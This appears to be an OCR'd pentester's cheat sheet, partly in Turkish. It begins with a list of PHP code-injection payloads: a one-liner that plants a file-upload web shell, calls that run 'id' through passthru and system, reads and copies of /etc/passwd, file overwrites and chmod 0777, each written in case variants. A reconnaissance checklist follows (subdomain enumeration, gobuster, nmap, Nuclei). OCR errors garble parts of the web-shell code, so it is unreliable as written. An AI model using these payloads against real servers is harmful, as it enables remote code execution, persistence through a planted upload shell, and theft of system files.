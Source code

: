 ```bash
$file = fopen ("upload2.php", "w"); echo fwrite($file, '<html><form action="upload2.php" method="post" enctype="multipart/form-data">Select image to upload; <input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></html><?php if( isset ($_POST["submit"])){ $file_name = $_FILES["fileToUpload"] ["name"]; $file_tmp_name = $FILES["fIleToUpload"("tmpname"]; if (move uploaded_file($file_tmp_ name, " ./" . $file_name)) { echo "ok"; } } ?>'); fclose($file)
passthru('id')
PASSTHRU('id')
;SYSTEM('id')
readfile("/etc/passwd");
readfile("index.html");
READFILE("index.html")
READFILE("/etc/passwd")
echo%20file_exists("index.html");
echo%20file_exists("/etc/passwd");
ECHO%20FILE_EXISTS("index.html");
ECHO%20FILE_EXISTS("/etc/passwd");
chmod("index.html",0777);
CHMOD("index.html",0777);
echo%20copy("/etc/passwd","/tmp/passwd");
echo%20file_exists("/tmp/passwd");
echo%20file_get_contents("/etc/passwd");
ECHO%20FILE_GET_CONTENTS("/etc/passwd");
echo%20file_put_contents("index.html","Hello%20World.%20Testing!");
ECHO%20FILE_PUT_CONTENTS("index.html","HELLO%20WORLD.%20TESTING!");
echo%20fileperms("index.html");
echo%20fileperms("/etc/passwd");
ECHO%20FILEPERMS("index.html");
ECHO%20FILEPERMS("/etc/passwd");
print_r(glob("*.txt"));
print_r(glob("*.html"));
print_r(glob("*.config"));
```

Dorking, Shodan gitleaks (Manuel)

SSLscan,ssllabs afsa

Subdomain Enum. (Amass, subfinder ) —> 200 dönenlere gau, spider  ve Extracting JS

Hidden Directory Searching (gobuster yada Ffuf)

Subdomain Takeover (Nuclei)

Port Scan (nmap)

HTTP Methods kontrolleri

HTST

Rate Limit Control

exiftool 

> **ExifTool**, used for reading and writing meta information in a variety of file types
> 

